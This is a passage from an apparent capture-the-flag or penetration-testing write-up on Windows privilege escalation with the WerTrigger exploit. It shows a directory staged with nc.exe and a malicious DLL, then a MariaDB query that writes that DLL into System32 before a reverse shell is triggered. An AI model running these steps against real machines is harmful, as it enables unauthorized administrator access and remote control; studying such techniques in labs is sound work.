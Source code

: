 <figure><img src="../../../.gitbook/assets/image (3690).png" alt=""><figcaption></figcaption></figure>

This opens up quite a few exploits to getting an administrator shell, such as the WerTrigger exploit.

{% embed url="https://github.com/sailay1996/WerTrigger" %}

&#x20;To exploit this, we would need to have these files within a directory we control:

```
C:\temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C30-DCD7

 Directory of C:\temp

07/05/2023  09:25 AM    <DIR>          .
07/05/2023  09:25 AM    <DIR>          ..
07/05/2023  09:25 AM            45,272 nc.exe
07/05/2023  09:23 AM            12,288 phoneinfo.dll
07/05/2023  09:24 AM             9,252 Report.wer
07/05/2023  09:24 AM            15,360 WerTrigger.exe
               4 File(s)         82,172 bytes
               2 Dir(s)   7,268,442,112 bytes free
```

Afterwards, using the MySQL instance, we can place the `phoneinfo.dll` file into `C:\Windows\System32`.&#x20;

```
MariaDB [mysql]> select load_file('C:/temp/phoneinfo.dll') into dumpfile "C:\\Windows\\System32\\phoneinfo.dll"
    -> ;
Query OK, 1 row affected (0.176 sec)
```

Afterwards, just run `WerTrigger.exe` and our reverse shell command:

<figure><img src="../../../.gitbook/assets/image (1170).png" alt=""><figcaption></figcaption></figure>
